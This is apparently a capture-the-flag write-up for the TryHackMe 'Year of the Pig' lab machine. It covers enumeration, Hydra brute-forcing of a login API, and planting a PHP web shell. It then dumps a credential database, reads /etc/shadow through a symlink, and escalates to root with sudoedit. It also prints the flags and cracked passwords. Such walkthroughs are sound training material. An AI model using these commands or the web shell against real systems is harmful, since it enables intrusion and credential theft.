

# Year of the Pig

Some pigs do fly...

[Year of the Pig](https://tryhackme.com/room/yearofthepig)

## Topic's

- Network Enumeration
- Web Enumeration
- Brute Forcing (http-get)
- Local File Inclusion
- SQL Enumeration
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flags

Some pigs fly, and some have stories to tell. Get going!

_NB: Please do not stream this room until two days after release._

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ sudo nmap -A -sS -sC -sV -O 10.10.22.166
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 17:31 CET
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
WARNING: RST from 10.10.22.166 port 22 -- is this port really open?
Nmap scan report for 10.10.22.166
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/25%OT=22%CT=1%CU=39270%PV=Y%DS=2%DC=T%G=Y%TM=5F95A8
OS:94%P=x86_64-pc-linux-gnu)SEQ(CI=Z%II=I)OPS(O1=M508ST11NW7%O2=%O3=%O4=%O5
OS:=%O6=)WIN(W1=F4B3%W2=0%W3=0%W4=0%W5=0%W6=0)ECN(R=Y%DF=Y%T=40%W=0%O=%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=4
OS:0%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%
OS:Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   32.58 ms 10.8.0.1
2   32.66 ms 10.10.22.166

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.82 seconds
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ gobuster dir -u http://10.10.22.166/ -w /usr/share/wordlists/dirb/big.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.22.166/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2020/10/25 17:34:05 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/admin (Status: 301)
/api (Status: 301)
/assets (Status: 301)
/css (Status: 301)
Progress: 7375 / 20470 (36.03%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/10/25 17:35:46 Finished
===============================================================
```

[http://10.10.22.166/login.php](http://10.10.22.166/login.php)

```
POST /api/login HTTP/1.1
Host: 10.10.22.166
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.22.166/login.php
Content-Type: text/plain;charset=UTF-8
Origin: http://10.10.22.166
Content-Length: 64
Connection: close

{"username":"asd","password":"7815696ecbf1c96e6894b779456d330e"}
```

```
HTTP/1.1 200 OK
Date: Sun, 25 Oct 2020 16:40:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 63
Connection: close
Content-Type: text/html; charset=UTF-8

{"Response":"Error","Verbose":"Incorrect Username or Password"}
```



`Remember that passwords should be a memorable word, followed by two numbers and a special character`

```conf
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
<* >2 !?A l p
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ john -w=wordlist.txt --rules --stdout > capitalised-list
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
```

```conf
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
#:
$[0-9]$[0-9]$[!.?,]
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ john -w=capitalised-list --rules --stdout > mutated-list
Using default input encoding: UTF-8
Press 'q' or Ctrl-C to abort, almost any other key for status
3498064p 0:00:00:01 100.00% (2020-10-25 17:46) 2332Kp/s Plugineding
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ hydra -l marco -P hashed-list 10.10.22.166 http-post-form "/api/login:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=Incorrect" -I
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-25 17:52:47
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3498064 login tries (l:1/p:3498064), ~218629 tries per task
[DATA] attacking http-post-form://10.10.22.166:80/api/login:{"username"\:"^USER^","password"\:"^PASS^"}:F=Incorrect
[80][http-post-form] host: 10.10.22.166   login: marco   password: b0efb8ae58114b5bfc6c49a8124e2cdf
[80][http-post-form] host: 10.10.22.166   login: marco   password: c6147f769ab7c56f89c2f08dc168ee18
[80][http-post-form] host: 10.10.22.166   login: marco   password: 21655f352dc05a9999b10295cd3c937b
[80][http-post-form] host: 10.10.22.166   login: marco   password: 547f64704e1d834ee7d1f1a4945f27ce
[80][http-post-form] host: 10.10.22.166   login: marco   password: 12ed6322e0e85588f13a77e361d76add
[80][http-post-form] host: 10.10.22.166   login: marco   password: 653b5a50bf95eb258d305a4548e308e3
[80][http-post-form] host: 10.10.22.166   login: marco   password: ccc3c41b45dc75b1f4fc98a5573abcb8
[80][http-post-form] host: 10.10.22.166   login: marco   password: 42fd83254c7f4c059a33d067ac067031
[80][http-post-form] host: 10.10.22.166   login: marco   password: 9e77aa660403845238431a49ed35b6a4
[80][http-post-form] host: 10.10.22.166   login: marco   password: db2b3cc37850ec719f9ad9999cbe6bce
[80][http-post-form] host: 10.10.22.166   login: marco   password: a594e5cc1c89be2915fcbdb32b6c5569
[80][http-post-form] host: 10.10.22.166   login: marco   password: 3f07d7f2a4ab78c903de1259f15e4b06
[80][http-post-form] host: 10.10.22.166   login: marco   password: b6b715b91687324a2e2cd5f8318a8016
[80][http-post-form] host: 10.10.22.166   login: marco   password: 416f9f1ed896ca81f871347bd7995227
[80][http-post-form] host: 10.10.22.166   login: marco   password: e58b14a77c7b19958a086092e57998ed
[80][http-post-form] host: 10.10.22.166   login: marco   password: 3347a5b5f16e4af642e8a1b21d047db7
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-25 17:52:49
```

```
wfuzz -w hashed-list -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.22.166/api/login --hh 63
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ sed -n '705943p' mutated-list
savoia21!
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ ssh marco@10.10.22.166
The authenticity of host '10.10.22.166 (10.10.22.166)' can't be established.
ECDSA key fingerprint is SHA256:2KjF+8WJY6OrFINzn62WeweHnY6FXTMQ9Xfa6RTvPhA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.22.166' (ECDSA) to the list of known hosts.
marco@10.10.22.166's password:


        __   __                       __   _   _            ____  _
        \ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  _ \(_) __ _
         \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_) | |/ _` |
          | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  __/| | (_| |
          |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|   |_|\__, |
                                                                    |___/


marco@year-of-the-pig:~$ ls
flag1.txt
marco@year-of-the-pig:~$ cat flag1.txt
THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}
```

```
marco@year-of-the-pig:~$ id
uid=1000(marco) gid=1000(marco) groups=1000(marco),1002(web-developers)
```

```php
echo '<?php system($_GET['c']); ?>' > /var/www/html/test.php && chmod 777 /var/www/html/test.php
```

```
kali@kali:~/CTFs/tryhackme/Year of the Pig$ curl http://10.10.22.166/test.php?c=cat%20/var/www/admin.db > admin.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 20481    0 20481    0     0   198k      0 --:--:-- --:--:-- --:--:--  200k
kali@kali:~/CTFs/tryhackme/Year of the Pig$ file admin.db
admin.db: SQLite 3.x database, last written using SQLite version 3022000
kali@kali:~/CTFs/tryhackme/Year of the Pig$ sqlite3 admin.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
sessions  users
sqlite> show * from users
   ...> ;
Error: near "show": syntax error
sqlite> select * from users;
58a2f366b1fd51e127a47da03afc9995|marco|ea22b622ba9b3c41b22785dcb40211ac
f64ccfff6f64d57b121a85f9385cf256|curtis|a80bfe309ecaafcea1ea6cb3677971f2
sqlite>
```

`a80bfe309ecaafcea1ea6cb3677971f2 md5 Donald1983$`

```
marco@year-of-the-pig:~$ su - curtis
Password:
curtis@year-of-the-pig:~$ ls
flag2.txt
curtis@year-of-the-pig:~$ cat flag2.txt
THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}
```

```
marco@year-of-the-pig:~$ cd /var/www/html/ && mkdir -p temp/temp
marco@year-of-the-pig:/var/www/html$ ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

```
root:$6$6Plj/ZBH$Lg5A8NArY2hvL437XI7wtkWFh9xTxpZdjzeeOxCSuCMMuJV.kR/vYa7QunnupHx4jkyk2L1gzA2C1pPELSUsP.:18490:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:18490:0:99999:7:::
uuidd:*:18490:0:99999:7:::
dnsmasq:*:18490:0:99999:7:::
landscape:*:18490:0:99999:7:::
sshd:*:18490:0:99999:7:::
pollinate:*:18490:0:99999:7:::
marco:$6$5QVe.J7t$9U9.NEE.eYkUPtWPqx0rw7XJO5TkPd2Z4kwXOrXCir1SR91oUgt0uYAVL0bBxteJI2qvv.XPKQxSUaMtNw3pT/:18491:0:99999:7:::
curtis:$6$8y/iqA1P$T1Q53Z3qIJclV.hgwB1E02jSgT2hAiqcHHS1nZiIVnqdG0lPOCYwVFZOGazVUpUQcpd9.8lfxR95m8zRAl.ns0:18495:0:99999:7:::
```

```
curtis@year-of-the-pig:~$ sudoedit /var/www/html/temp/temp/config.php
curtis@year-of-the-pig:~$ sudo bash
root@year-of-the-pig:/home/curtis# cat /root/root.txt
THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}
```

1. Flag 1

`THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}`

2. Flag 2

`THM{Y2Q2N2M1NzNmYTQzYTI4ODliYzkzMmZh}`

3. Root Flag

`THM{MjcxNmVmYjNhYzdkZDc0M2RkNTZhNDA0}`
